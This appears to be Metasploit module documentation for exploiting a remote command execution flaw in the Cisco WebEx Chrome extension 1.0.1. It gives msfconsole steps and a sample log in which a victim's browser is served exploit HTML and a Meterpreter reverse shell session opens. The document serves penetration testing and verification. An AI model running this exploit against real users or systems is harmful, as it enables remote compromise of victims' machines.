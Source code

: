 Cisco WebEx is a suite of applications for online meeting organization and video conferencing.
Included in this suite are extensions for popular web browsers which ease use and provide supplemental
features.

Version 1.0.1 of the WebEx extension for Google Chrome contains a vulnerability which allows an
attacker to execute arbitrary commands on a target, which can lead to arbitrary remote code execution.


## Vulnerable Application

Cisco WebEx Chrome Extension 1.0.1 is known to be affected.

## Verification Steps

**Using cisco_webex_ext**

1. Start msfconsole
2. Do: ```use exploit/windows/misc/cisco_webex_ext```
3. Do: ```set SRVHOST [IP ADDRESS]```
4. Do: ```set SRVPORT [PAYLOAD NAME]```
5. Do: ```set URIPATH [ARBITRARY URI]```
6. Do: ```Choose a payload and set any specific options```
6. Do: ```run```, after a target browses to the generated URL, you should receive a session like the following:

```
msf > use exploits/windows/misc/cisco_webex_ext
msf exploit(cisco_webex_ext) > set srvhost 10.6.0.151
srvhost => 10.6.0.151
msf exploit(cisco_webex_ext) > set srvport 4567
srvport => 4567
msf exploit(cisco_webex_ext) > set uripath not_a_very_good_meeting
uripath => not_a_very_good_meeting
msf exploit(cisco_webex_ext) > run
[*] Exploit running as background job.

[*] Started reverse TCP handler on 10.6.255.229:4444
[*] Using URL: https://10.6.0.151:4567/not_a_very_good_meeting
[*] Server started.
msf exploit(cisco_webex_ext) > [*] 10.6.0.151       cisco_webex_ext - Got request: /not_a_very_good_meeting
[*] 10.6.0.151       cisco_webex_ext - From: Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36
[*] 10.6.0.151       cisco_webex_ext - Got request: /not_a_very_good_meeting/cwcsf-nativemsg-iframe-43c85c0d-d633-af5e-c056-32dc7efc570b.html
[*] 10.6.0.151       cisco_webex_ext - From: Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36
[*] 10.6.0.151       cisco_webex_ext - Sending exploit html ...
[*] 10.6.0.151       cisco_webex_ext - Got request: /not_a_very_good_meeting/qt3iFe8N
[*] 10.6.0.151       cisco_webex_ext - From:
[*] 10.6.0.151       cisco_webex_ext - Sending payload ...
[*] Sending stage (957487 bytes) to 10.6.255.229
[*] Meterpreter session 1 opened (10.6.255.229:4444 -> 10.6.255.229:57472) at 2017-01-26 13:27:28 -0600

msf exploit(cisco_webex_ext) >
```

